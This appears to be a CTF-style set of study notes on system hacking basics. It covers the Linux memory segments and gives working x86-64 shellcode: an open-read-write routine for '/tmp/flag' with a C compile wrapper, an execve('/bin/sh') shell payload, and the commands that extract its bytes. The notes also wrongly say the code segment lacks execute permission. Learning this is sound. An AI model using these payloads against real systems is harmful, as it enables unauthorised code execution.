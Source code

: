 # System hacking basic

Reminding system hacking basic things. 

## Linux Memory Layout
Linux: Divide process's memory into largely 5 segments -> (code, data, bss, heap, stack)

### Code
Segment for 'exeuctable' machine code. Also known as Text Segment. 
Doesn't have execute capability in most cases. 

### Data
Segment for global variables and constants whose values are already fixed during compile.
Usually have read capability. Data segment is again divided into two segments: writable, nonwritable

Writable: data segment
Non writable: rodata segment 

### Bss
Segment for global variables and constants whose values are not fixed yet during compile.
When program starts, this segment is initialized with zero.  
Usually have 'read', 'write'.

### Stack
Segment for temporary variables such as parameter for functions and local variables. 
Usually used in units called 'stack frames'. Grows toward 'low address'.

### Heap 
Segment for heap data. Dynamically allocated during runtime. 
Usually has 'read', 'write'. 

## Shell code
If attacker can controll rip, attacker can execute arbitrary assembly code. 

### ORW shell code

Bellow C code is pseudo code that shows what shell code does.

```
char buf[0x30];

int fd = open("/tmp/flag", RD_ONLY, NULL);
read(fd, buf, 0x30); 
write(1, buf, 0x30);
```

syscall rax arg0(rdi)         arg1(rsi) arg2(rdx)
read    0x0 unsigned int fd   char *buf size_t count
write   0x1 unsigned int fd   char *buf size_t count
open    0x2 char *filename    int flag  umode_t mode

#### 1. int fd = open("/tmp/flag", RD_ONLY, NULL)
First, string "/tmp/flag" should be on the memory. -> push
But, push operation works in units of 8 bytes. So, push 0x67, then push 0x616c662f706d742f.

"/tmp/flag" in little endian: 0x67616c662f706d742f

O_RDONLY = 0 -> set rsi 0
mode -> meaningless, set rdx 0
rax -> 0x2(open)

```
push 0x67
mov rax, 0x616c662f706d742f 
push rax
mov rdi, rsp    ; rdi = "/tmp/flag"
xor rsi, rsi    ; rsi = 0 ; RD_ONLY
xor rdx, rdx    ; rdx = 0
mov rax, 2      ; rax = 2 ; syscall_open
syscall         ; open("/tmp/flag", RD_ONLY, NULL)
```

#### 2. read(fd, buf, 0x30)
File descriptor number obtained by 'open' goes to rax. So, 'mov rdi, rax'
```
mov rdi, rax      ; rdi = fd
mov rsi, rsp
sub rsi, 0x30     ; rsi = rsp-0x30 ; buf
mov rdx, 0x30     ; rdx = 0x30     ; len
mov rax, 0x0      ; rax = 0        ; syscall_read
syscall           ; read(fd, buf, 0x30)
```

#### 3. write(1, buf, 0x30)
standard output(stdout) -> set rdi 0x1
rsi, rdx stays same

```
mov rdi, 1        ; rdi = 1 ; fd = stdout
mov rax, 0x1      ; rax = 1 ; syscall_write
syscall           ; write(fd, buf, 0x30)
```

How to compile into ELF
```
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
    ".global run_sh\n"
    "run_sh:\n"

    "push 0x67\n"
    "mov rax, 0x616c662f706d742f \n"
    "push rax\n"
    "mov rdi, rsp    # rdi = '/tmp/flag'\n"
    "xor rsi, rsi    # rsi = 0 ; RD_ONLY\n"
    "xor rdx, rdx    # rdx = 0\n"
    "mov rax, 2      # rax = 2 ; syscall_open\n"
    "syscall         # open('/tmp/flag', RD_ONLY, NULL)\n"
    "\n"
    "mov rdi, rax      # rdi = fd\n"
    "mov rsi, rsp\n"
    "sub rsi, 0x30     # rsi = rsp-0x30 ; buf\n"
    "mov rdx, 0x30     # rdx = 0x30     ; len\n"
    "mov rax, 0x0      # rax = 0        ; syscall_read\n"
    "syscall           # read(fd, buf, 0x30)\n"
    "\n"
    "mov rdi, 1        # rdi = 1 ; fd = stdout\n"
    "mov rax, 0x1      # rax = 1 ; syscall_write\n"
    "syscall           # write(fd, buf, 0x30)\n"
    "\n"
    "xor rdi, rdi      # rdi = 0\n"
    "mov rax, 0x3c	   # rax = sys_exit\n"
    "syscall		   # exit(0)");

void run_sh();

int main() { run_sh(); }
```

### execve shell code

Only uses execve systemcall: execve("/bin/sh",null,null)

syscall rax   arg0(rdi)         arg1(rsi)    arg2(rdx)
execve  0x3b  char *filename    char *argv   char *const *envp

```
mov rax, 0x68732f6e69622f
push rax
mov rdi, rsp  ; rdi = "/bin/sh\x00"
xor rsi, rsi  ; rsi = NULL
xor rdx, rdx  ; rdx = NULL
mov rax, 0x3b ; rax = sys_execve
syscall       ; execve("/bin/sh", null, null)
```

### How to extract shell code

How to extract shellcode in the form of byte code(opcode)

```
$ objdump -d shellcode.o
shellcode.o:     file format elf32-i386
Disassembly of section .text:
00000000 <_start>:
   0:	31 c0                	xor    %eax,%eax
   2:	50                   	push   %eax
   3:	68 2f 2f 73 68       	push   $0x68732f2f
   8:	68 2f 62 69 6e       	push   $0x6e69622f
   d:	89 e3                	mov    %esp,%ebx
   f:	31 c9                	xor    %ecx,%ecx
  11:	31 d2                	xor    %edx,%edx
  13:	b0 0b                	mov    $0xb,%al
  15:	cd 80                	int    $0x80
```

We can use xxd command 

```
$ objcopy --dump-section .text=shellcode.bin shellcode.o
$ xxd shellcode.bin
00000000: 31c0 5068 2f2f 7368 682f 6269 6e89 e331  1.Ph//shh/bin..1
00000010: c931 d2b0 0bcd 80                        .1.....
```

